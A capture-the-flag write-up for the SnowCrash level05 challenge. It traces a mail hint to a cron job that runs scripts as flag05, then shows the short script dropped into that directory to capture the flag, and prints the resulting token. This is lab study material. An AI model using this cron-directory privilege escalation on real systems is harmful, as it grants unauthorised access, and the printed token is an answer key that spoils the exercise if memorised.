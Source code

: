 # Level 05

- Once logged in, `You have new mail.` message shows on the prompt

```
???$ ssh level05@localhost -p 4242
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

  Good luck & Have fun

          localhost 10.110.0.2
level05@localhost's password:
You have new mail.
level05@SnowCrash:~$
```

### Why does terminal say: "You have new mail"?
- ref: https://superuser.com/questions/25738/why-does-terminal-say-you-have-mail


```
Somehow you've had a script or something similar deliver mail to your account on your local machine which is stored in /var/mail/$USER...
```

let's checkout `/var/mail/$USER`

```
level05@SnowCrash:~$ cat /var/mail/$USER
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
- above `cron` job does is in every 2nd minute, the script `su -c "sh /usr/sbin/openarenaserver" - flag05` will be run.
	- notice `- flag05`, it runs by the user `flag05`

```
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
level05@SnowCrash:~$
```

- for every file in `/opt/openarenaserver` directory, it executes the `ulimit -t 5; bash -x "$i"`, and `rm -f "$i"`, which is remove the file that is executed

let's make a script that runs in directory `/opt/openarenaserver`
```
level05@SnowCrash:/opt/openarenaserver$ cat getflag.sh
#!/bin/bash
/bin/getflag > /tmp/flag
...
level05@SnowCrash:/opt/openarenaserver$ chmod +x getflag.sh
```

and `watch` until the flag is created
```
level05@SnowCrash:/opt/openarenaserver$ watch -n 1 cat /tmp/flag
Every 1.0s: cat /tmp/flag                                    Wed May 11 00:24:01 2022

(nothing here)
```
and wait...
```
level05@SnowCrash:/opt/openarenaserver$ watch -n 1 cat /tmp/flag
Every 1.0s: cat /tmp/flag                                    Wed May 11 00:24:01 2022

Check flag.Here is your token : viuaaale9huek52boumoomioc
```
